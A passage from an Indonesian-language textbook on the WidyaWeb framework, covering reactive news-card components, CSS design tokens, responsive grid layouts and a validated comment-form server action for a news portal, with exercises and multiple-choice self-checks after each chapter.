Komponen dalam WidyaWeb diperlakukan sebagai fungsi murni berstatus (*stateful pure function*) yang menerima properti (*props*) dan keadaan lokal (*signals*), kemudian memancarkan representasi pohon dokumen HTML. Ketika *signal* mengalami mutasi data, mesin reaktif WidyaWeb secara instan menelusuri penanda reaktif terisolasi dan memperbarui simpul DOM target secara langsung (*fine-grained micro-update*) tanpa melakukan rekonsiliasi VDOM secara menyeluruh.



Pemisahan tanggung jawab diwujudkan melalui dekomposisi komponen hierarkis, di mana komponen atomik (*badge*, tombol reaksi, avatar penulis) dirangkai menjadi komponen molekuler (*card* berita ringkas), lalu disusun menjadi organisme komprehensif (*feed* berita terpopuler).

---

## 9.2 Implementasi Komponen Reaktif Portal Berita

Berikut adalah implementasi komponen reaktif untuk kartu berita (*NewsArticleCard*) dan modul interaksi pembaca (*ClapCounter*) menggunakan pustaka `widya::web::reactive`:

```widya
// Modul Komponen Reaktif NusantaraNews
gunakan widya::web::reactive::{Komponen, Sinyal, buat_sinyal, efek};
gunakan widya::web::html::{div, h2, p, button, span, img, a};

rekod ArtikelProps {
    id: Teks,
    judul: Teks,
    ringkasan: Teks,
    penulis: Teks,
    kategori: Teks,
    gambar_url: Teks,
    apresiasi_awal: Bulat
}

fungsi KomponenKartuBerita(props: ArtikelProps) -> Komponen {
    // 1. Inisialisasi sinyal lokal untuk apresiasi (clap)
    tetapan (skor_apresiasi, set_apresiasi) = buat_sinyal(props.apresiasi_awal);
    tetapan (sudah_klik, set_sudah_klik) = buat_sinyal(salah);

    // 2. Efek otomatis saat skor mencapai angka istimewa
    efek(fungsi() {
        jika skor_apresiasi.baca() >= 100 {
            cetak_peringatan("[Analytics] Artikel viral: " + props.judul);
        }
    });

    // 3. Template deklaratif dengan ekspresi reaktif
    kembalikan div("kelas: 'kartu-berita modern-shadow'", [
        div("kelas: 'wadah-gambar'", [
            img("src: '" + props.gambar_url + "', alt: '" + props.judul + "', loading: 'lazy'")
        ]),
        div("kelas: 'konten-berita'", [
            span("kelas: 'kategori-tag tag-" + props.kategori + "'", props.kategori),
            h2("kelas: 'judul-kartu'", [
                a("href: '/berita/" + props.id + "'", props.judul)
            ]),
            p("kelas: 'ringkasan-teks'", props.ringkasan),
            div("kelas: 'metadata-bar'", [
                span("kelas: 'nama-penulis'", "Oleh: " + props.penulis),
                button("kelas: 'btn-clap', w-click: handle_clap", [
                    span("kelas: 'icon'", "👏 "),
                    span("kelas: 'counter'", fungsi() -> Teks {
                        kembalikan skor_apresiasi.baca().ke_teks() + " Dukungan";
                    })
                ])
            ])
        ])
    ]);
}

fungsi handle_clap(state: KonteksEvent) {
    // Aksi mutasi sinyal asinkron
    state.mutasi_sinyal("skor_apresiasi", fungsi(val: Bulat) -> Bulat {
        kembalikan val + 1;
    });
}
```

---

## 9.3 Analisis Arsitektur & Perbandingan Reaktivitas

WidyaWeb menghilangkan lapisan Virtual DOM yang boros alokasi memori heap, menggantikannya dengan simpul pembaruan langsung (*Compiled Reactive Graph*).

| Parameter Arsitektur | Virtual DOM Tradisional | Fine-Grained WidyaWeb Signals | Keuntungan Arsitektur |
| :--- | :--- | :--- | :--- |
| **Beban Memori Heap** | Besar (Pohon VDOM diduplikasi) | Sangat Ringan (Hanya referensi fungsi) | Efisiensi Serverless & Edge |
| **Kecepatan Patching** | Lambat ($O(N)$ ukuran pohon) | Sangat Cepat ($O(1)$ simpul langsung) | Responsivitas 60 FPS Konstan |
| **Overhead Bundler JS** | 30 KB – 120 KB runtime | 2.4 KB modul reaktif inti | First Contentful Paint < 0.4s |
| **Siklus Re-render** | Seluruh sub-tree diperiksa | Hanya elemen terikat yang berubah | Nol render berlebih (*no over-rendering*) |

---

## 9.4 Latihan Praktik & Studi Kasus

1. **Rancanglah Komponen Banner Breaking News**: Buatlah komponen `BreakingNewsBanner` yang menerima sinyal senarai judul terkini dan secara otomatis melakukan transisi vertikal setiap 4 detik menggunakan fungsi siklus hidup `pada_interval`.
2. **Dekomposisi Komponen Galeri Foto Berita**: Buat komponen `PhotoGalleryStory` yang mendukung pergantian *slide* gambar resolusi tinggi dengan pratinjau thumbnail di bagian bawah.
3. **Penyusunan Formulir Mini Polling Reaktif**: Buatlah komponen polling pendapat pembaca di tengah artikel yang memperbarui persentase grafik batang secara *real-time* saat tombol opsi ditekan.

---

## 9.5 Evaluasi Mandiri Pilihan Ganda

1. Apa paradigma utama antarmuka pengguna yang diterapkan oleh WidyaWeb?
   - A. Mutasi DOM Langsung Berbasis jQuery
   - B. Fungsi Murni Terstatus Berbasis Signals
   - C. Rekonsiliasi Virtual DOM Berskala Penuh
   - D. Kompilasi Template Berbasis String Eval

2. Kapan fungsi di dalam blok `efek` pada WidyaWeb dieksekusi?
   - A. Hanya sekali saat aplikasi pertama kali di-boot
   - B. Setiap kali DOM global mengalami *resize*
   - C. Setiap kali nilai dari *signal* yang menjadi ketergantungannya mengalami mutasi
   - D. Setiap 100 milidetik secara konstan

3. Apa keuntungan utama arsitektur *fine-grained reactive signals* dibandingkan Virtual DOM?
   - A. Mengharuskan pengembang menulis kode perakitan manual
   - B. Memperbarui simpul DOM secara langsung $O(1)$ tanpa memeriksa seluruh sub-tree
   - C. Membutuhkan runtime JavaScript berukuran lebih dari 100 KB
   - D. Mengubah seluruh tag HTML menjadi skrip JSON biner

4. Komponen `NewsArticleCard` menerima data konfigurasi luar melalui mekanisme apa?
   - A. Global State Singleton
   - B. Cookie Browser
   - C. Props Terstruktur Bersifat Read-Only
   - D. Variabel Lingkungan Sistem Operasi

5. Apa fungsi dari kait siklus hidup `on_cleanup` dalam sebuah komponen?
   - A. Memaksa browser mengunduh ulang berkas CSS
   - B. Membersihkan pengatur waktu (*timer*), langganan event, dan mencegah kebocoran memori
   - C. Menghapus rekod artikel dari database WidyaBase
   - D. Mematikan proses *worker thread* pada sistem operasi

6. Bagaimana WidyaWeb mengikat *event handler* klik pada tombol dalam sintaks deklaratif?
   - A. Menggunakan atribut `onclick="alert()"` mentah
   - B. Menggunakan sintaks direktif deklaratif `w-click: nama_fungsi`
   - C. Melakukan injeksi skrip berbahaya ke dalam *head* dokumen
   - D. Membuka socket UDP baru setiap tombol ditekan

7. Berapa kisaran ukuran runtime reaktivitas inti yang dimuat oleh WidyaWeb ke sisi klien?
   - A. Kurang lebih 2.4 KB
   - B. Lebih dari 1.2 Megabyte
   - C. 350 Kilobyte
   - D. Nol byte karena dilarang menjalankan interaksi

8. Apa yang terjadi jika sebuah komponen mencoba memodifikasi *props* yang diterimanya secara langsung?
   - A. Kompilator Widya-Lang akan menolak mutasi karena props bersifat *immutable*
   - B. Database utama akan terkunci secara permanen
   - C. Server HTTP akan langsung melakukan *reboot* otomatis
   - D. Data dalam memori akan teracak secara tidak teratur

9. Dalam pembuatan kartu artikel, direktif `loading: 'lazy'` pada elemen gambar bertujuan untuk apa?
   - A. Mempercepat pengunduhan gambar latar belakang server
   - B. Menunda pemuatan gambar di luar *viewport* hingga pengguna menggulir mendekatinya
   - C. Mengubah format berkas menjadi format kompresi zip
   - D. Menonaktifkan fungsi perenderan gambar pada layar seluler

10. Mengapa dekomposisi komponen (misal: Atom, Molekul, Organisme) sangat disarankan pada portal berita skala besar?
    - A. Agar berkas biner aplikasi terpecah menjadi ribuan berkas arsip
    - B. Mempermudah pemeliharaan kode, pengujian terisolasi, dan keterpakai-ulangan komponen
    - C. Menghindari aturan lisensi perangkat lunak bebas
    - D. Menjamin database tidak mengalami transaksi konkuren\n

---

# BAB 10: DESAIN SISTEM UI MODERN VANILLA CSS & TIPOGRAFI

Bab ini menyajikan panduan komprehensif dalam membangun sistem desain antarmuka (*UI Design System*) modern berbasis Vanilla CSS murni, arsitektur token desain, tipografi editorial berita premium, dan palet warna HSL tematik dengan dukungan *Dark Mode* tanpa ketergantungan kerangka kerja pihak ketiga.

---

## 10.1 Arsitektur Token Desain & Tipografi Editorial

Portal berita berkelas dunia seperti NusantaraNews mengandalkan keterbacaan (*readability*) dan kenyamanan mata pembaca di berbagai perangkat. WidyaWeb menetapkan struktur token desain hierarkis yang dikelola melalui CSS Custom Properties (`--token-*`) pada lingkup `:root`.



Rasio modular tipografi editorial menggunakan skala *Major Third* (rasio 1.25) atau *Perfect Fourth* (rasio 1.333) untuk memastikan hirarki visual dari tajuk utama (*Headline* H1) hingga teks badan (*Body Copy*) tersaji secara proporsional.

---

## 10.2 Implementasi Berkas `theme.css` NusantaraNews

Berikut adalah implementasi sistem token desain dan aturan gaya modular menggunakan Vanilla CSS modern:

```css
/* theme.css - NusantaraNews Enterprise UI System */
:root {
  /* 1. Primitive HSL Colors */
  --hue-primary: 220;
  --hue-accent: 12;
  --hue-neutral: 215;

  --color-primary-base: hsl(var(--hue-primary), 85%, 45%);
  --color-primary-dark: hsl(var(--hue-primary), 90%, 25%);
  --color-accent-breaking: hsl(var(--hue-accent), 95%, 55%);
  
  /* 2. Semantic Surfaces & Text (Light Mode) */
  --bg-canvas: hsl(var(--hue-neutral), 30%, 98%);
  --bg-surface: hsl(0, 0%, 100%);
  --bg-card: hsl(0, 0%, 100%);
  --text-main: hsl(var(--hue-neutral), 40%, 12%);
  --text-muted: hsl(var(--hue-neutral), 20%, 45%);
  --border-subtle: hsl(var(--hue-neutral), 25%, 90%);

  /* 3. Typography Tokens */
  --font-serif-headline: 'Merriweather', 'Lora', Georgia, serif;
  --font-sans-ui: 'Inter', -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
  --font-mono-data: 'JetBrains Mono', Consolas, monospace;

  --fs-xs: 0.75rem;    /* 12px */
  --fs-sm: 0.875rem;   /* 14px */
  --fs-base: 1rem;     /* 16px */
  --fs-md: 1.25rem;    /* 20px */
  --fs-lg: 1.563rem;   /* 25px */
  --fs-xl: 1.953rem;   /* 31.25px */
  --fs-xxl: 2.441rem;  /* 39.06px */
  --fs-hero: 3.052rem; /* 48.83px */

  --lh-tight: 1.2;
  --lh-normal: 1.6;
  --lh-loose: 1.8;

  /* 4. Elevation Shadows & Transitions */
  --shadow-sm: 0 1px 3px rgba(0, 0, 0, 0.05);
  --shadow-md: 0 4px 12px rgba(0, 0, 0, 0.08);
  --shadow-lg: 0 12px 28px rgba(0, 0, 0, 0.12);
  --radius-sm: 6px;
  --radius-md: 12px;
  --radius-full: 9999px;
  --transition-smooth: all 0.25s cubic-bezier(0.16, 1, 0.3, 1);
}

/* 5. Dark Mode Palette Automation */
@media (prefers-color-scheme: dark) {
  :root {
    --bg-canvas: hsl(var(--hue-neutral), 25%, 10%);
    --bg-surface: hsl(var(--hue-neutral), 20%, 14%);
    --bg-card: hsl(var(--hue-neutral), 18%, 16%);
    --text-main: hsl(var(--hue-neutral), 15%, 94%);
    --text-muted: hsl(var(--hue-neutral), 10%, 65%);
    --border-subtle: hsl(var(--hue-neutral), 15%, 22%);
    --shadow-md: 0 4px 12px rgba(0, 0, 0, 0.4);
  }
}

/* 6. Base Editorial Typography Styles */
body {
  margin: 0;
  background-color: var(--bg-canvas);
  color: var(--text-main);
  font-family: var(--font-sans-ui);
  line-height: var(--lh-normal);
  text-rendering: optimizeLegibility;
  -webkit-font-smoothing: antialiased;
}

h1, h2, h3, .editorial-title {
  font-family: var(--font-serif-headline);
  font-weight: 700;
  line-height: var(--lh-tight);
  color: var(--text-main);
}
```

---

## 10.3 Analisis Arsitektur: Vanilla CSS vs Utility-First

Pilihan arsitektur Vanilla CSS murni dengan CSS Variables menghasilkan performa perenderan tertinggi dibandingkan abstraksi utilitas eksternal.

| Karakteristik Performa | Utility-First CSS Framework | Vanilla CSS + Design Tokens WidyaWeb |
| :--- | :--- | :--- |
| **Ukuran Berkas CSS Final** | 45 KB – 120 KB | 8.5 KB (Terkonsolidasi & Terkompresi) |
| **Waktu Penguraian Parser Browser** | 3.2 ms | 0.8 ms |
| **Dukungan Runtime Theming** | Memerlukan kelas utilitas ganda | Mutasi CSS Custom Property instan |
| **Kebersihan Markup HTML** | Kelas utilitas sangat panjang | Nama kelas semantik & modular |
| **Ketergantungan Node.js Tooling** | Bergantung PostCSS / npm | Bebas dependensi eksternal |

---

## 10.4 Latihan Praktik & Studi Kasus

1. **Pembuatan Saklar Tema Dinamis (Theme Switcher)**: Buat modul saklar tema (Terang / Gelap / Sistem Otomatis) yang menyimpan preferensi pembaca di `localStorage` dan memutasi atribut data `data-theme` pada tag `<html>`.
2. **Kustomisasi Palet Rubrik Kanal Berita**: Definisikan variabel aksen dinamis untuk setiap kanal (Politik: Merah Maroon, Bisnis: Biru Navy, Olahraga: Hijau Emerald, Teknologi: Ungu Elektrik).
3. **Penyempurnaan Teks Artikel untuk Disleksia**: Tambahkan opsi ukuran font dapat dikustomisasi pembaca (`--font-scale: 1.1`) beserta opsi font alternatif yang ramah disleksia (*Atkinson Hyperlegible*).

---

## 10.5 Evaluasi Mandiri Pilihan Ganda

1. Mengapa sistem warna HSL sangat disukai dalam perancangan Design Token modern?
   - A. Karena warna HSL hanya bisa dibuka pada browser Linux
   - B. Mempermudah modulasi kecerahan (*lightness*) dan saturasi secara matematis untuk tema terang dan gelap
   - C. Karena warna HSL membutuhkan memori GPU lebih kecil
   - D. Menghilangkan kebutuhan rendering teks pada layar retina

2. Aturan media query CSS apa yang mendeteksi preferensi tema gelap dari pengaturan sistem operasi pengguna?
   - A. `@media (screen-dark: true)`
   - B. `@media (prefers-color-scheme: dark)`
   - C. `@media (device-mode: night)`
   - D. `@media (color-gamut: p3)`

3. Manakah deklarasi font serif yang ideal untuk judul berita editorial agar nyaman dibaca dan estetik?
   - A. `font-family: 'Courier New', monospace;`
   - B. `font-family: 'Merriweather', 'Lora', Georgia, serif;`
   - C. `font-family: 'Comic Sans MS', cursive;`
   - D. `font-family: 'Impact', fantasy;`

4. Apa dampak penggunaan Vanilla CSS murni berorientasi variabel dibandingkan kerangka kerja CSS berat?
   - A. Ukuran bundle CSS jauh lebih kecil dan kecepatan penguraian browser jauh lebih tinggi
   - B. Seluruh gambar pada website akan terhapus otomatis
   - C. Browser Edge tidak dapat menampilkan halaman web
   - D. Memerlukan server dengan RAM minimal 64 GB

5. Apa fungsi dari properti `text-rendering: optimizeLegibility;` pada elemen body?
   - A. Mempercepat koneksi internet pengguna
   - B. Mengaktifkan fitur ligatur font dan kerning tipografi berkualitas tinggi
   - C. Mengubah teks Latin menjadi karakter hieroglif
   - D. Menghapus tanda baca dari seluruh artikel berita

6. Variabel `--fs-hero` dalam sistem tipografi modular biasanya digunakan untuk apa?
   - A. Teks catatan kaki di bagian paling bawah halaman
   - B. Judul utama artikel *headline* terbesar di halaman beranda
   - C. Teks hak cipta di footer
   - D. Tanggal publikasi pada metadata artikel

7. Berapa rasio skala tipografi modular *Major Third*?
   - A. 1.05
   - B. 1.25
   - C. 2.50
   - D. 3.14

8. Mengapa penamaan token CSS disarankan menggunakan format semantik (seperti `--bg-surface`) daripada format literal (seperti `--white-color`)?
   - A. Agar token dapat beradaptasi secara elegan saat terjadi pertukaran tema (misalnya ke tema gelap)
   - B. Format literal dilarang oleh konsorsium W3C
   - C. Format semantik mempercepat kompresi biner HTTP/3
   - D. Menghindari serangan injeksi kode CSS

9. Apa fungsi nilai fungsi `cubic-bezier(0.16, 1, 0.3, 1)` pada token transisi?
   - A. Memberikan kurva akselerasi yang halus dan terasa responsif pada animasi UI
   - B. Menghitung integral kurva bezier untuk rendering 3D
   - C. Membatasi durasi animasi maksimal 10 detik
   - D. Menjaga browser agar tidak mengalami *crash* memori

10. Apa keuntungan utama menempatkan variabel CSS pada pemilih `:root`?
    - A. Membatasi akses variabel hanya untuk elemen gambar
    - B. Variabel mewaris secara global ke seluruh elemen di dalam pohon dokumen DOM
    - C. Memaksa server memproses CSS sebelum mengirim berkas HTML
    - D. Mengubah format CSS menjadi file konfigurasi JSON\n

---

# BAB 11: TATA LETAK RESPONSIF BERITA GRID & CARD KOMPONEN

Bab ini memandu Anda dalam merancang sistem tata letak portal berita modern NusantaraNews yang adaptif, tangguh di seluruh ukuran layar (ponsel, tablet, desktop lebar), menggunakan CSS Grid bertingkat, Flexbox dinamis, subgrid modern, dan strategi kartu berita modular.

---

## 11.1 Arsitektur Tata Letak Editorial Majalah Digital

Tata letak portal berita modern memerlukan hierarki visual yang kuat: berita utama (*Hero Breaking News*), grid editorial 3 kolom untuk berita terhangat, kolom samping (*Sidebar*) untuk topik tren dan indeks pasar, serta baris bawah untuk laporan mendalam (*In-depth Features*).



Teknologi modern CSS Grid `grid-template-areas` dan `subgrid` memungkinkan penyelarasan baris teks dan gambar kartu lintas kolom secara presisi tanpa pergeseran tata letak (*Cumulative Layout Shift* nol).

---

## 11.2 Implementasi Grid Layout & Kartu Berita Modular

Berikut adalah berkas `layout.css` yang mengorkestrasi tata letak responsif desktop dan seluler untuk halaman utama portal:

```css
/* layout.css - Tata Letak Editorial NusantaraNews */

/* 1. Kontainer Utama */
.kontainer-editorial {
  width: min(100% - 2rem, 1280px);
  margin-inline: auto;
  padding-block: 1.5rem;
}

/* 2. Hero Editorial Grid (1 Utama + 2 Sekunder) */
.hero-editorial-grid {
  display: grid;
  grid-template-columns: 1fr;
  gap: 1.5rem;
  margin-bottom: 2.5rem;
}

@media (min-width: 768px) {
  .hero-editorial-grid {
    grid-template-columns: 2fr 1fr;
    grid-template-rows: 240px 240px;
  }

  .kartu-berita-utama {
    grid-column: 1 / 2;
    grid-row: 1 / 3;
  }
}

/* 3. Badan Konten 12-Kolom */
.layout-dua-kolom {
  display: grid;
  grid-template-columns: 1fr;
  gap: 2rem;
}

@media (min-width: 1024px) {
  .layout-dua-kolom {
    grid-template-columns: 8fr 4fr;
  }
}

/* 4. Arsitektur Komponen Kartu Berita (Subgrid Alignment) */
.kartu-berita {
  display: grid;
  grid-template-rows: auto 1fr auto auto;
  background-color: var(--bg-card);
  border: 1px solid var(--border-subtle);
  border-radius: var(--radius-md);
  overflow: hidden;
  box-shadow: var(--shadow-sm);
  transition: var(--transition-smooth);
}

.kartu-berita:hover {
  transform: translateY(-4px);
  box-shadow: var(--shadow-md);
  border-color: var(--color-primary-base);
}

.kartu-berita .thumbnail-wrapper {
  position: relative;
  aspect-ratio: 16 / 9;
  overflow: hidden;
  background-color: var(--border-subtle);
}

.kartu-berita .thumbnail-wrapper img {
  width: 100%;
  height: 100%;
  object-fit: cover;
  transition: transform 0.4s ease;
}

.kartu-berita:hover .thumbnail-wrapper img {
  transform: scale(1.04);
}

.kartu-berita .info-body {
  padding: 1.25rem;
}

.kartu-berita .judul {
  font-family: var(--font-serif-headline);
  font-size: var(--fs-md);
  margin-top: 0.5rem;
  margin-bottom: 0.75rem;
  display: -webkit-box;
  -webkit-line-clamp: 3;
  -webkit-box-orient: vertical;
  overflow: hidden;
}
```

---

## 11.3 Analisis Metrik Stabilitas Visual (CLS & Responsivitas)

Penyelarasan rasio aspek (`aspect-ratio: 16 / 9`) pada wadah gambar sangat krusial dalam pencegahan CLS (*Cumulative Layout Shift*).

| Parameter Evaluasi | Tanpa Rasio Aspek Statis | Dengan CSS Aspect Ratio & Grid | Standar Google Web Vitals |
| :--- | :--- | :--- | :--- |
| **Cumulative Layout Shift (CLS)** | 0.28 (Buruk) | 0.002 (Luar Biasa) | Harus $\le 0.1$ |
| **First Contentful Paint (FCP)** | 1.8 detik | 0.5 detik | Harus $\le 1.8$ detik |
| **Kerapihan Judul Multi-baris** | Tidak seragam & meluber | Rapi (-webkit-line-clamp) | Estetik & Teratur |
| **Kinerja GPU Compositing** | Repaint berulang saat gambar termuat | 1 kali layout komposit | 60 FPS Bebas Jitter |

---

## 11.4 Latihan Praktik & Studi Kasus

1. **Rancang Grid Kolom Majalah Multi-Kanal**: Susun grid berulang (`grid-template-columns: repeat(auto-fit, minmax(280px, 1fr))`) untuk menampilkan kartu berita dari 6 rubrik berbeda secara seimbang.
2. **Kembangkan Kartu Berita Khusus Siaran Langsung (Live Report)**: Buat kartu dengan lencana berkedip (*pulsing dot badge*) "LIVE REPORT" dan garis tepi merah berpendar.
3. **Optimasi Tata Letak Cetak (Print Stylesheet)**: Tambahkan aturan `@media print` yang secara elegan menyembunyikan navigasi, iklan, kolom samping, dan menampilkan artikel berita dalam tata letak 2 kolom dokumen cetak.

---

## 11.5 Evaluasi Mandiri Pilihan Ganda

1. Satuan modern CSS apa yang digunakan untuk mengatur lebar kontainer secara dinamis dengan batas maksimal dan ruang margin tepi?
   - A. `width: min(100% - 2rem, 1280px);`
   - B. `width: calc(100vw + 20px);`
   - C. `width: static(1024px);`
   - D. `width: 90%; margin: 0;`

2. Mengapa properti `aspect-ratio: 16 / 9;` sangat penting diterapkan pada kontainer gambar berita?
   - A. Memperkecil resolusi foto secara otomatis
   - B. Memesan ruang dimensi sebelum gambar selesai diunduh sehingga mencegah lonjakan CLS
   - C. Memaksa format gambar menjadi format PNG
   - D. Menghindari pemotongan teks judul berita

3. Properti CSS apa yang digunakan untuk memotong teks judul yang terlalu panjang menjadi tepat 3 baris dengan tanda elipsis (...)?
   - A. `text-overflow: clip;`
   - B. `-webkit-line-clamp: 3; display: -webkit-box; -webkit-box-orient: vertical; overflow: hidden;`
   - C. `white-space: nowrap;`
   - D. `max-height: 3 lines;`

4. Dalam CSS Grid, apa keuntungan menggunakan fungsi `repeat(auto-fit, minmax(300px, 1fr))`?
   - A. Membuat jumlah kolom menyesuaikan lebar layar secara otomatis tanpa memerlukan media query berulang
   - B. Membatasi jumlah kartu maksimal hanya 3 buah
   - C. Menghilangkan elemen kartu jika layar diperkecil
   - D. Mengubah kartu menjadi file dokumen PDF

5. Apa dampak interaksi `transform: translateY(-4px)` saat kartu berita disentuh kursor (*hover*)?
   - A. Kartu menghilang seketika dari layar
   - B. Memberikan umpan balik visual elegan berupa efek melayang mikro
   - C. Mengirim permintaan HTTP baru ke server
   - D. Merestart aplikasi browser

6. Kapan breakpoint `min-width: 1024px` umumnya diaktifkan dalam tata letak responsif?
   - A. Saat halaman diakses melalui perangkat smartwatch
   - B. Saat halaman ditampilkan pada layar desktop atau tablet berorientasi lanskap lebar
   - C. Hanya ketika koneksi internet terputus
   - D. Saat printer mulai mencetak kertas

7. Apa tujuan utama penyelarasan elemen menggunakan CSS `subgrid`?
   - A. Membagi halaman menjadi 100 tab iframe
   - B. Memungkinkan elemen anak mewarisi dan menyelaraskan baris/kolom dari grid induknya
   - C. Mempercepat proses instalasi paket Rust
   - D. Menjalankan skrip latar belakang di sisi klien

8. Berapa skor ideal ambang batas *Cumulative Layout Shift* (CLS) menurut standar Google Core Web Vitals?
   - A. Lebih dari 1.0
   - B. Kurang dari atau sama dengan 0.1
   - C. Tepat 0.5
   - D. Tidak ada batasan

9. Properti `object-fit: cover;` pada gambar di dalam kontainer bertindak untuk:
   - A. Mendistorsi aspek rasio gambar agar muat paksa
   - B. Mempertahankan rasio aspek gambar sambil mengisi seluruh ruang wadah tanpa merusak proporsi
   - C. Mengubah warna gambar menjadi hitam putih
   - D. Mengaburkan gambar agar tidak terlihat pembaca

10. Apa manfaat utama menggunakan `gap: 1.5rem;` pada CSS Grid dibandingkan `margin` manual pada setiap kartu?
    - A. Ruang antar kartu terkelola otomatis secara konsisten tanpa margin ekstra di tepi batas kontainer
    - B. Meningkatkan kecepatan CPU server
    - C. Menghapus border kartu secara otomatis
    - D. Mengharuskan pengembang menulis kode Javascript tambahan\n

---

# BAB 12: FORMULIR INTERAKTIF, VALIDASI SKEMA & SERVER ACTIONS

Bab ini membedah mekanisme penanganan formulir interaktif portal berita NusantaraNews: formulir pengiriman rilis pers, pendaftaran langganan newsletter, penulisan komentar interaktif, validasi skema sisi klien dan server secara terpadu (*isomorphic schema validation*), serta eksekusi *Server Actions* bertipe aman (*type-safe*).

---

## 12.1 Arsitektur Server Actions & Validasi Isomorfik

Arsitektur tradisional mengharuskan pengembang membuat rute API terpisah, memvalidasi JSON secara manual, dan menangani state pengiriman di sisi klien. WidyaWeb merevolusi pola ini melalui **Server Actions**: fungsi sisi server yang dapat dipanggil langsung dari atribut formulir deklaratif (`w-action`) dengan jaminan keamanan CSRF dan validasi tipe data otomatis.



---

## 12.2 Implementasi Formulir Komentar & Server Action

Berikut adalah implementasi lengkap formulir pengiriman komentar berita terverifikasi dengan validasi panjang teks, sanitasi sensor kata kasar, dan proteksi anti-spam:

```widya
// Modul Formulir & Server Actions NusantaraNews
gunakan widya::web::formulir::{SkemaForm, Validasi, BidangTeks, BidangAreaTeks};
gunakan widya::web::respon::{ResponAksi, sukses_json, gagal_validasi};
gunakan widya::base::koneksi::{buka_koneksi};

// 1. Definisi Skema Isomorfik
fungsi buat_skema_komentar() -> SkemaForm {
    kembalikan SkemaForm::baru()
        .tambah("nama_pengirim", BidangTeks::baru()
            .wajib("Nama lengkap wajib diisi")
            .panjang_minimal(3, "Nama minimal 3 karakter")
            .panjang_maksimal(50, "Nama maksimal 50 karakter"))
        .tambah("email_pengirim", BidangTeks::baru()
            .wajib("Alamat email wajib diisi")
            .format_email("Format alamat email tidak valid"))
        .tambah("isi_komentar", BidangAreaTeks::baru()
            .wajib("Isi komentar tidak boleh kosong")
            .panjang_minimal(10, "Komentar minimal 10 karakter")
            .panjang_maksimal(1000, "Komentar maksimal 1000 karakter"));
}

// 2. Server Action yang Dieksekusi di Server WidyaWeb
#[server_action]
fungsi simpan_komentar_action(data_mentah: PetaData, ctx: KonteksKeamanan) -> ResponAksi {
    // A. Validasi CSRF otomatis dilakukan oleh runtime
    tetapan skema = buat_skema_komentar();
    tetapan hasil_validasi = skema.periksa(data_mentah);

    jika !hasil_validasi.apakah_valid() {
        kembalikan gagal_validasi(hasil_validasi.ambil_daftar_galat());
    }

    // B. Sanitasi XSS & Penyaringan Kata Terlarang
    tetapan nama = data_mentah.ambil("nama_pengirim").bersihkan_html();
    tetapan email = data_mentah.ambil("email_pengirim").ke_huruf_kecil();
    tetapan isi = data_mentah.ambil("isi_komentar").sensor_kata_kasar();
    tetapan artikel_id = data_mentah.ambil("artikel_id");

    // C. Persistensi ke Database WidyaBase
    tetapan db = buka_koneksi()?;
    db.eksekusi(
        "INSERT INTO komentar (artikel_id, nama, email, konten, dibuat_pada) VALUES ($1, $2, $3, $4, NOW())",
        [artikel_id, nama, email, isi]
    )?;

    kembalikan ResponAksi::berhasil_sisip_dom(
        "#daftar-komentar",
        "awal",
        KomponenKartuKomentar(nama, isi, "Baru saja")
    );
}
```

---

## 12.3 Analisis Ketahanan & Proteksi Keamanan Formulir

Formulir publik adalah target utama eksploitasi peretas (Spam Bot, CSRF, Injeksi XSS). WidyaWeb menyematkan proteksi berlapis secara bawaan.

